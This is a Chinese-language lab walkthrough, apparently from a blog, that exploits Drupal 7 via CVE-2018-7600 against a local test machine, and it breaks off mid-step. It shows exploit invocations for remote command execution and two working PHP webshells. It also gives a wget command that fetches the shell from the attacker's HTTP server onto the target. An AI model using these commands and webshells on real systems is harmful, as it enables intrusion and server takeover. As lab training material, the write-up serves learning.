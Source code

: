 

git clone https://github.com/pimps/CVE-2018-7600.git

在kali中

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls

或者
python3 drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

即可执行ls读取文件

![image-20230628232052599](image-20230628232052599.png)



在当前目录写一个一句话木马

这里参考的moonsec的

moon.php

```
<?php system($_POST['moon']);?>
```

这里写自己的webshell

php.php

```
<?php @eval($_POST['qwer']);?>
```

后者可以通过菜刀之类的webshell工具进行连接

这里用哥斯拉进行连接

![image-20230628232108952](image-20230628232108952.png)

![image-20230628232130003](image-20230628232130003.png)



或者采用第一种(即moon的方式)进行反弹shell

然后在当前目录开启python自带的httpserver

python -m SimpleHTTPServer

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/moon.php"   
```

将php文件上传到靶机上

再使用

